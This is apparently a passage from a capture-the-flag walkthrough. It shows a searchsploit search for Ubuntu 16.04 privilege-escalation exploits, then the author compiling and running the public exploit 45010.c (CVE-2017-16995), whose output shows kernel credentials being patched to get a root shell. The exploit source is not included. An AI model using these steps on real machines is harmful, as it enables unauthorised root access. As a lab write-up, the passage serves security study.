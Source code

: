 ~~~
$ searchsploit ubuntu 16.04 privilege escalation

------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
Exim 4 (Debian 8 / Ubuntu 16.04) - Spool Privilege Escalation                       | linux/local/40054.c
LightDM (Ubuntu 16.04/16.10) - 'Guest Account' Local Privilege Escalation           | linux/local/41923.txt
Linux Kernel (Debian 7.7/8.5/9.0 / Ubuntu 14.04.2/16.04.2/17.04 / Fedora 22/25 / Ce | linux_x86-64/local/42275.c
Linux Kernel (Debian 9/10 / Ubuntu 14.04.5/16.04.2/17.04 / Fedora 23/24/25) - 'ldso | linux_x86/local/42276.c
Linux Kernel 4.4 (Ubuntu 16.04) - 'BPF' Local Privilege Escalation (Metasploit)     | linux/local/40759.rb
Linux Kernel 4.4.0 (Ubuntu 14.04/16.04 x86-64) - 'AF_PACKET' Race Condition Privile | linux_x86-64/local/40871.c
Linux Kernel 4.4.0-21 (Ubuntu 16.04 x64) - Netfilter target_offset Out-of-Bounds Pr | linux_x86-64/local/40049.c
Linux Kernel 4.4.0-21 < 4.4.0-51 (Ubuntu 14.04/16.04 x86-64) - 'AF_PACKET' Race Con | linux/local/47170.c
Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fdput()' bpf(BPF_PROG_LOAD) Privilege E | linux/local/39772.txt
Linux Kernel 4.6.2 (Ubuntu 16.04.1) - 'IP6T_SO_SET_REPLACE' Local Privilege Escalat | linux/local/40489.txt
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation       | linux/local/45010.c
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation              | linux/local/44298.c
Linux Kernel < 4.4.0-21 (Ubuntu 16.04 x64) - 'netfilter target_offset' Local Privil | linux/local/44300.c
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - Local Privilege Escalat | linux/local/43418.c
Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/16.04 / Linux Mint 17/18 / Zorin) - Loc | linux/local/47169.c
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
~~~

After trying several exploits, I successfully rooted the machine with `45010.c` which exploits `CVE-2017-16995`.

~~~
mark@node:/tmp$ gcc 45010.c -o exploit
mark@node:/tmp$ ./exploit 
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff8800356ce500
[*] Leaking sock struct from ffff88003aa10800
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff880036e060c0
[*] UID from cred structure: 1001, matches the current: 1001
[*] hammering cred structure at ffff880036e060c0
[*] credentials patched, launching shell...
~~~